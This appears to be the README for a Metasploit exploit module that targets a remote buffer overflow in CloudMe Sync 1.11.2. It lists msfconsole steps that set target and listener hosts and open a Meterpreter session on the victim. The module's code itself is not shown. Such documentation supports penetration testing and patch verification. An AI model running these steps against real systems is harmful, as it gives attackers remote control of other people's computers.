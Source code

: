 ## Description

This module exploits a buffer overflow vulnerability found in [CloudMe Sync v1.11.2](https://www.cloudme.com/downloads/CloudMe_1112.exe).

## Vulnerable Application

An issue was discovered in CloudMe 1.11.2. An unauthenticated remote attacker that can connect to the "CloudMe Sync" client application listening on port 8888 can send a malicious payload causing a buffer overflow condition. This will result in an attacker controlling the program's execution flow and allowing arbitrary code execution.

## Verification Steps
  1. Install CloudMe for Desktop version `v1.11.2`
  2. Start the applicaton (you don't need to create an account)
  3. Start `msfconsole`
  4. Do `use exploit/windows/misc/cloudme_sync2`
  5. Do `set RHOST ip`
  6. Do `set LHOST ip`
  7. Do `exploit`
  8. Verify the Meterpreter session is opened

![alt text](https://github.com/Zeop-CyberSec/cloudme_sync2/raw/master/pictures/clipboard_01.jpeg "module info")

![alt text](https://github.com/Zeop-CyberSec/cloudme_sync2/raw/master/pictures/clipboard_02.jpeg "run exploit")
